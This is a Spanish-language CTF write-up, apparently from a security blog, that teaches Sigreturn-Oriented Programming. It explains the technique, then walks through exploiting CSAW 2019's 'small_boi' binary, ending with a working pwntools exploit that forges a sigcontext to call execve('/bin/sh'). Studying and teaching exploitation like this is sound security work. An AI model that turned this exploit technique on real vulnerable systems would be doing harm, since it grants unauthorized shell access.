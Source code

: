 ```yaml
---
layout: post
title: Programación Orientada a Sigreturn (SROP) 
author: GuxFiz
date: 2023-01-09
##categories: [Explotacion binaria]
tags: [Explotacion Binaria, ROP, SROP]
image: /assets/img/srop/waifu.jpg
---
```

Resolucion de un ejercicio aplicando la tecnica SROP, para ejecutar un sigcontext falso y conseguir una shell
{:.lead}

## Señales

Las señales son un mecanismo para enviar notificaciones asincrónicas directamente a un proceso o subproceso. Este se utilizan para matar procesos, para decirles que los temporizadores han expirado o para notificar sobre un comportamiento anormal.

### Funcion de las señales

![](/assets/img/srop/se%C3%B1al.webp)

1. Cuando se tiene un proceso previamente creado, lo que se hace primero es que el kernel envia una señal a ese proceso, el proceso se suspende temporalmente y entrara en el kernel

2. Despues, el kernel guarda el contexto de ese proceso y salta al controlador de la señal (este ya debe de estar previamente definido)

3. Cuando se vuelve e pasar el kernel, el controlador de la señal regresa, y el kernel restaura el contexto del proceso

4. Ejecucion del proceso

Del paso 2 al 3 es la clave. SROP abusa de ```sigreturn()``` por que normalmente restaura el contexto del proceso despues de que regresa el controlador de señal, esto funciona mas o menos asi:

El kernel guarda el contexto del proceso en el stack del proceso, luego se usa la direccion de ```rt_sigreturn``` en el top del stack, esta direccion apunta a un fragmento de codigo en el que ```sigreturn()``` llamara a sistema. Despues del paso 3, el RSP o ESP apunta a ```rt_sigreturn``` y ejecuta el ```sigcontext```

### SROP

SROP es una variante de ROP, pero en esta solo se deben de cumplir dos condiciones

1. Un gadget ```syscall; ret```
2. Una manera de poner ```0xf``` en ```RAX``` o ```EAX```

Dos de las formas mas usadas para poner ```0xf``` en ```RAX``` son:

1. Usar ```mov eax, 0xf```
2. Usar ```pop eax; ret```

Ambas son faciles de implementar, ya que meten ```0xf``` en una sola acccion.
Y el ```0xf``` simplemente es el ```syscall ID de rt_sigreturn```.

## Como funciona

Aun que es similar a ROP, no funcionan de la misma forma, SROP funciona poniendo en el call stack un ```sigcontext``` pero falso. y luego sobrescribir el ```RIP``` o ```EIP``` con la direccion de un gadget que permita llamar a ```sigreturn()```, y se apunta a ```sigreturn()``` ya que este permite ejecutar el ```sigcontext```, realmente esto es muy poderoso, ya que con SROP podemos controlar al mismo tiempo todos los valores de los registros. Y cuando digo ```sigcontext```, me refiero a esto:

```c
struct sigcontext_64 {
	__u64				r8;
	__u64				r9;
	__u64				r10;
	__u64				r11;
	__u64				r12;
	__u64				r13;
	__u64				r14;
	__u64				r15;
	__u64				di;
	__u64				si;
	__u64				bp;
	__u64				bx;
	__u64				dx;
	__u64				ax;
	__u64				cx;
	__u64				sp;
	__u64				ip;
	__u64				flags;
	__u16				cs;
	__u16				gs;
	__u16				fs;
	__u16				ss;
	__u64				err;
	__u64				trapno;
	__u64				oldmask;
	__u64				cr2;
	__u64				fpstate;
	__u64				reserved1[8];
};
```
Cuando el atacante crea un ```sigcontext``` falso, puede establecer cualquier valor de cada uno de esos registros

## Explotacion

Para el ejemplo usare un clasico, ```smallboi``` de CSAW 2019

Al ejecutarlo simplemente se queda esperando un input y se cierra, y al tratar de desbordar el buffer vemos que si se puede:

```[1]    423456 segmentation fault (core dumped)  ./small_boi```

Pero tiene NX asi que no podemos ejecutar una shellcode

### Analizandolo

Al materlo al radare, vemos y hacer un ```pdf``` vemos algo como esto:

![](/assets/img/srop/radare1.png)

Esto simplemente es el entry point, y lo unico interesante es que en la direccion ```0x004001b6``` hace un llamado a ```fcn.0040018c```, asi que vamos pa' alla

![](/assets/img/srop/radare2.png)

Este es su codigo, basicamente el binario hacer una syscall de ```read()```, la cual es la funcion que recibe nuestro input, la cual lee ```0x200``` bytes que vienen de ```var_20h```


### Sacando el offset el RIP

Esta es la parte mas sencilla, asi que realmente no requiere mucha explicacion, lo que hice fue:

1. Usando pwndbg genere con ```cyclic 100``` una secuencia de 100 caracteres que le pase como input al programa
2. Usando ```cyclic -l```  y 8 bytes de el RSP obtuve su offset

Y bueno, el offset para llegar al RIP es 40

### Sacando el gadget

El binario apenas si tiene instrucciones y por consiguiente apenas y tendra los gadgets que son usados comunmente jaja, asi que ahora queda mostrar los gadgets usando ```/R``` en radare, a ver que onda.

Despues de ver los gadgets nos encontramos con el que usaremos:

![](/assets/img/srop/radare3.png)

Aqui esta todo lo que ocupamos, este unico gadget hace las dos condiciones que mencion al principio, ya que establece a ```EAX``` el nuemero de la syscall equivalente a ```sigreturn()``` y la invoca. Tambien como mencione antes, en SROP se crear un ```sigcontext``` falso, asi que en esta caso haremos uno falso llamando a ```execve()``` con el arguemento ```/bin/sh``` 

Para sacar ```/bin/sh``` simplemente podemos ```/ /bin/sh``` y vemos que nos arroja algo como esto:

![](/assets/img/srop/radare4.png)

Donde la direccion de ```/bin/sh``` es la que esta seleccionada

## Exploit

Al conseguir todo, nuestro exploit queda asi:

```py
from pwn import *

context.arch = 'amd64'

p = process("./small_boi")

bin_sh = 0x4001ca
sigreturn = 0x400180
syscall = 0x400185

payload = b'A'*40
payload += p64(sigreturn)

frame = SigreturnFrame(kernel='amd64')
frame.rax = 59
frame.rdi = bin_sh
frame.rsi = 0
frame.rdx = 0
frame.rip = syscall

payload += bytes(frame)
p.send(payload)
p.interactive()
```
Y los valores salieron de aca:

![](/assets/img/srop/radare5.png)

Con ```SigreturnFrame``` Podemos crear un ```sigcontext``` falso, donde se establece ```rax``` a 59 (para execve), ```rdi``` a la dirección del ```/bin/sh```, ```rsi``` y ```rdx``` ambos a 0, y ```rip``` hacia la ```syscall```, esto con el fin de que la ```rt_sigreturn``` syscall cambie de contexto usando estos valores del falso ```sigcontext```, llamando así a ```execve``` con ```/bin/sh```. :point_up: 🤓 

Y el ejecutarlo nos da la shell:

![](/assets/img/srop/exploit.png)

Eso ha sido todo, gracias por leer ❤